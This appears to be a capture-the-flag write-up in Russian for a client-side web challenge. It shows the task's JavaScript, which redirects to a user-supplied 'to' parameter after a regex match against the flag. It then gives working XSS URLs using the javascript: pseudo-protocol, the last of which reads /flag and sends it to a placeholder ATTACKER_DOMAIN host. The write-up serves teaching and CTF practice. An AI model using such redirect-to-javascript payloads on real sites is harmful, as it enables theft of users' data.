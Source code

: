 # SC task writeup

Решающий после ознакомления с исходными кодами задачи должен прийти к выводу, что это таск нацеленный на эксплуатацию client-side уязвимостей.

Исходя из этого рассмотрим исходный код клиента:
```js
const reportInp = document.querySelector(".report--input")
const reportSubmit = document.querySelector(".report--submit")

const submitForm = () => {
  window.location = `/report?url=${encodeURIComponent(reportInp.value)}`
}

const main = async () => {
  const searchParams = new URL(window.location).searchParams
  const q = searchParams.get("q")
  const to = searchParams.get("to")
  if (!q) return

  const regex = new RegExp(q)
  const flag = await fetch("/flag").then(res => res.text())
  
  const match = regex.test(flag)
  if (match && to) window.location = to
}
main()
```

Данный код и пытается проверить наличие вхождений по регулярному выражению указанном в GET параметре q. Если вхождения найдены, код перенапрявляет на страницу указанную в GET параметре to.

Этим можно воспользоваться и получить произвольное исполнение javascript кода в рамках origin атакуемого хоста.
Для этого нужно заставить бота пройти по следущей ссылке:
```
http://localhost:5000/?q=.*&to=javascript:alert(window.origin)
```

В гет параметре to мы указали ссылку с псевдопротоколом javascript, который и позволяет нам исполнять произвольный js код.

Финальная нагрузка выглядет следующим образом:
```
http://localhost:5000/?q=.*&to=javascript:fetch("/flag").then(res => res.text()).then(res => fetch("http://ATTACKER_DOMAIN/" + res))
```


